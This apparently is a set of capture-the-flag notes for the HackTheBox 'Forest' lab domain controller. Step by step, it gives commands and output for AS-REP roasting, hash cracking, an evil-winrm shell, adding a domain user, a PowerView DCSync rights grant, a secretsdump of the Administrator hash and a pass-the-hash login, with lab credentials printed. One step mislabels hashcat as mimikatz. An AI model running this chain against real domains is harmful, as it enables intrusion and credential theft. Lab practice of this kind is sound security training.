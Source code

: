 cd- Start responder 
```
sudo responder -I tun0
```
- Create wordlist from usernames 
- check for no preauth users with get npusers from impacket
```
impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.domain.txt
```
- Output
```
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f1d92e8069100d3211632fa206366492$8fce52fb998ae5b9355991e862ea90534d371d025b36ad742360b7fff69d9105463067b15841c06058ef41986c87338ffd20397f441dbaa1fdb8d9e24a18bd9339fe35d9b33de372022a00a6590cdc597278af5f362cf1d0d70397e95a1c323542211329a5b4f1f1014cff3748a65d739b4c39ce47472524b3bab650437a7621dbbca97e851196669fa29368c6815db3c447cff039cdd24900fbc61cfb433b626285940e81763b296789ad0cf4bd357f80714d0970f970cc084d195f9c3ece012e15884b8ee235ed130d701247fc60d26bd9781b3a0ab981a17566dc05628a77381860bf9468
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
- Cracking svc-alfresco with mimikatz
```
hashcat -m 18200 hashes.domain.txt /usr/share/wordlists/rockyou.txt --force
```
- Cracked::: s3rvice
- trying psexec
```
impacket-psexec htb.local/svc-alfresco:s3rvice@htb.local
```
- showed shares none writable so it didn't work
- trying smbexec
```
impacket-smbexec htb.local/svc-alfresco:s3rvice@htb.local
```
- didn't work. Denied
- Trying wmiexec
```
impacket-wmiexec htb.local/svc-alfresco:s3rvice@htb.local
```
- Access denied. Moving on to enumerate smb
```
nxc smb -d htb.local -u svc-alfresco -p s3rvice --shares htb.local
```
- Found SYSVOL and NETLOGON are readable
- have command execution by adding -x whoami at the end of the nxc command. Going to try to get a shell with powershell-empire
```
sudo powershell-empire server
```
```
sudo powershell-empire client
```
- Get the empire.db file path from /usr/share/powershell-empire/empire/server/config.yaml
```
location: /var/lib/powershell-empire/server/data/empire.db
```
- Default login
```
username: empireadmin
password: password123
```
- generate the listener on http with an appropriate name
- false alarm we do not have execution through nxc smb -x
- enumerate shares with 
```
nxc smb 10.10.10.161 -d htb.local -u svc-alfresco -p s3rvice -M spider_plus
```
- View shares in /tmp/nxc_hosted/nxc_spider_plus
- Get the files with
```
nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
```
- nothing valuable in the smb shares
- Need to try evil-winrm 
```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```
- got a shell
- got user
- Bloodhound shows the need to add a user to Exchange Windows Privilages so i added hacker with 
```
net user hacker password123 /add /domain
```
- Set up listener after dropping nc.exe that gives a powershell so hat I can use powerview
- Bypass execution policy
```
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```
```
Import-Module .\Powerview.ps1
```
```
$SecPass = ConvertTo-SecureString 'password123' -AsPlainText -Force
```
```
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hacker', $SecPass)
```
```
Add-ObjectACL -PrincipalIdentity hacker -Credential $Cred -Rights DCSync
```
```
python3 /opt/secretsdump.py 'hacker:password123@10.10.10.161' -just-dc-user Administrator -just-dc-ntlm
```
- Output
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Cleaning up... 
```
- Then login as administrator
```
evil-winrm -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6' -i 10.10.10.161
```
